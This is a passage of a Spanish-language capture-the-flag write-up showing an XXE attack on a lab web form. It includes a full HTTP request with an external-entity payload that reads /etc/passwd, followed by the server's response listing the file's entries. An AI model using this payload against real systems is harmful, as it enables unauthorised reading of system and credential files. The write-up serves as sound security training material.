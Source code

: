```

<?xml version="1.0" encoding="UTF-8"?>
	<details>
		<email>
			admin
		</email>
		<password>
			admin
		</password>
	</details>
```

Veremos algo muy interesante y es que esta utilizando `XML`, vamos a probar una vulnerabilidad famosa llamada `XXE`, si le damos a enviar y ponemos en `BurpSuite` que capture tambien la respuesta del servidor, veremos que muestra el nombre de `admin` en texto plano, por lo que ese va a ser nuestra injeccion de leer archivos quedando de esta forma:

```
POST /form.php HTTP/1.1
Host: administrator.ext.nyx
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: text/plain;charset=UTF-8
Content-Length: 220
Origin: http://administrator.ext.nyx
Connection: keep-alive
Referer: http://administrator.ext.nyx/
Priority: u=0

<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [  
	<!ELEMENT foo ANY >
	<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
	<details>
		<email>
	&xxe;
		</email>
		<password>
	admin
		</password>
	</details>
```

Si enviamos la peticion y la capturamos veremos lo siguiente:

```
HTTP/1.1 200 OK
Date: Wed, 13 Aug 2025 07:44:02 GMT
Server: Apache/2.4.56 (Debian)
Vary: Accept-Encoding
Content-Length: 1537
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

<p align='center'> <font color=white size='5pt'> 
	root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
```